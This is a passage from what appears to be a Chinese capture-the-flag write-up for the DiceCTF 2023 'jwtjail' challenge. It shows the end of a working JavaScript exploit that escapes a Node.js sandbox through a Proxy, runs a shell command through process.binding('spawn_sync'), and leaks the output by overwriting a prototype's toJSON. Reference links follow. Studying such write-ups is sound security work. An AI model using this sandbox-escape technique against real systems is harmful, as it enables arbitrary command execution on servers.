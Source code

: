 ```js
          const flag = process
            .binding('spawn_sync')
            .spawn({
              maxBuffer: 1048576,
              shell: true,
              args: [ '/bin/sh', '-c', "/readflag" ],
              cwd: undefined,
              detached: false,
              envPairs: ['PWD=/'],
              file: '/bin/sh',
              windowsHide: false,
              windowsVerbatimArguments: false,
              killSignal: undefined,
              stdio: [
                { type: 'pipe', readable: true, writable: false },
                { type: 'pipe', readable: false, writable: true },
                { type: 'pipe', readable: false, writable: true }
              ]
            }).output[1].toString().trim()
          console.log(flag)
          process.__proto__.__proto__.__proto__.constructor.prototype.toJSON =
            () => flag
        } catch (e) {
          console.log(e.stack)
        }
      },
      get: (...args) => {
        if(args[1] === Symbol.toPrimitive) {
          return c(name + '.' + String(args[1]), () => {
            throw new Error()
          });
        }
        return c(name + '.' + String(args[1]));
      }
    }
  );
  return c('a', {});
})()`
    })
})
    .then((res) => res.text())
    .then(console.log)

```

## Ref
- r3
- [官方](https://brycec.me/posts/dicectf_2023_challenges#jwtjail)
- [JS Proxy](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Proxy)
- [Proxy 和 Reflect](https://juejin.cn/post/6844904090116292616)
- [Node 知识点](https://xz.aliyun.com/t/11791)
- [Process.binding](https://zhuanlan.zhihu.com/p/413313125)
